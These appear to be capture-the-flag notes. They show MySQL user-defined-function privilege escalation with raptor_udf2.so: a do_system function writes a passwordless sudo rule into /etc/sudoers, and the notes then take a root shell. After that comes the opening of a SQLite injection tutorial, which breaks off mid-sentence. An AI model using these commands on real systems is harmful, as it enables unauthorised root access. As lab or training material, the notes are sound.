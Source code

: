 mysql> use mysql;

mysql> create table foo(line blob);

mysql> insert into foo values(load_file('/home/smeagol/raptor_udf2.so'));

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';

mysql> create function do_system returns integer soname 'raptor_udf2.so';

mysql> select * from mysql.func;

+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+

1 row in set (0.00 sec)

mysql> select do_system('echo "smeagol ALL =(ALL) NOPASSWD: ALL" >> /etc/sudoers');

mysql> exit

sudo bash

whoami

root

cat Flag.txt


### SQL light 3 injection
```
Hits from the bits

@_gwae

SQLite Injection

Introduction

SQLite is a small RDBMS, written in C. Due to his size, it's widely used in embedded systems (GPS, Android, etc) - you don't 

need any server or any daemon : everything works thanks to a complete set of functions in nearly all languages.

Getting started

The easiest way to discover SQLite tricks is to try it directly on the shell !

In SQLite, the way to get the version is :

sqlite> SELECT sqlite_version();

3.7.17

Nothing hard when it's time to create some tables...

sqlite> CREATE TABLE demo (data TEXT);

sqlite> INSERT INTO demo (data) VALUES ('junk');

In the case of an SQL injection, e.g. in a table with 3 columns, we'll be in the following case, which will confirm that we are 

```